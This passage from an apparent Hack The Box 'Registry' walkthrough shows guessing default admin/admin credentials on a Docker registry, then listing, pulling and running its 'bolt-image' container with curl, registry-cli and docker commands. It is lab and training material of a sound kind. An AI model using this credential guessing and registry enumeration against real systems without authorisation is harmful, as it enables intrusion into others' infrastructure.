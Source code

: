 The `/v2` page has HTTP basic auth but I was able to guess the `admin / admin` credentials. However I get an empty JSON object when I query the page.

```
root@kali:~/htb/registry# curl -u admin:admin -k https://docker.registry.htb/v2/
{}
```

I'm pretty sure this a Docker Registry installation based on the name of the box, the hint from the file and the directory discovered.

To interact with the registry without doing API calls manually I'll use the [registry-cli](https://github.com/andrey-pohilko/registry-cli) tool.

```
root@kali:~/htb/registry# registry.py -l admin:admin -r https://docker.registry.htb --no-validate-ssl
---------------------------------
Image: bolt-image
  tag: latest
```

There's a docker image called `bolt-image` present in the registry. I'll download it to my own box so I can execute it and see if there is anything interesting in it. 

```
root@kali:~/htb/registry# docker login -u admin -p admin docker.registry.htb
WARNING! Using --password via the CLI is insecure. Use --password-stdin.
WARNING! Your password will be stored unencrypted in /root/.docker/config.json.
Configure a credential helper to remove this warning. See
https://docs.docker.com/engine/reference/commandline/login/#credentials-store

Login Succeeded
root@kali:~/htb/registry# docker pull docker.registry.htb/bolt-image:latest
latest: Pulling from bolt-image
f476d66f5408: Pull complete 
8882c27f669e: Pull complete 
d9af21273955: Pull complete 
f5029279ec12: Pull complete 
2931a8b44e49: Pull complete 
c71b0b975ab8: Pull complete 
02666a14e1b5: Pull complete 
3f12770883a6: Pull complete 
302bfcb3f10c: Pull complete 
Digest: sha256:eeff225e5fae33dc832c3f82fd8b0db363a73eac4f0f0cb587094be54050539b
Status: Downloaded newer image for docker.registry.htb/bolt-image:latest
```

I'll launch the container in interactive mode so I can look around easily:

```
root@kali:~/htb/registry# docker image list
REPOSITORY                       TAG                 IMAGE ID            CREATED             SIZE
anoxis/registry-cli              latest              c8ecf313a6be        2 months ago        73.6MB
docker.registry.htb/bolt-image   latest              601499e98a60        4 months ago        362MB
root@kali:~/htb/registry# docker run -ti 601499e98a60 /bin/bash
root@4195e2eb99fe:/# 
```
